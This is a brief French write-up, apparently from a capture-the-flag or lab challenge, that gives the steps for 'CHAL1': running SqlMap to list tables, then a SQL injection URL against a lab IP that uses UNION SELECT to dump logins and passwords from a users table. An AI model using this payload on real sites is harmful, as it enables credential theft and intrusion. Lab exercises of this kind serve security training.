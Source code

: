 ## CHAL1
1. SqlMap pour voir le nom des tables.
2. Taper cette requette:

* ```http://10.33.3.14:8081/?article=%27UNION%20Select%20null,login,password%20from%20users;```
